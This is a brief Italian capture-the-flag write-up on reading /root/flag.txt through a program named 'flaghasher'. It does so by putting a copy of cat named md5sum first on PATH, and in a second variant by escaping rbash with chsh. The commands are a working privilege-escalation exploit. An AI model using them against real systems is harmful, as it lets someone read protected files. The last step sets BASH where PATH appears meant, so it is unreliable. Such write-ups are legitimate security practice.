 per la prima variante, se si legge (con cat ad esempio) l'eseguibile, si nota che
esegue il comando (md5sum /root/flag.txt) quindi possiamo modificare le variabili d'ambiente!

cp $(which cat) md5sum
PATH=.
./flaghasher

per la seconda?
ora siamo su rbash (lo vedi con il comando env) e cio' non va bene
usiamo chsh per cambiare shell (all'avvio)

ora, facciamo la stessa cosa :)
MA sta volta il programma non e' nella folder => e' globale => non possiamo sovrascrivere le
variabili d'ambiente o non avremo piu' flaghasher stesso!

quindi semplicemente
BASH=.:$BASH
(in questo modo mettiamo md5sum locale in modo che venga trovato *prima* di quello originale :)
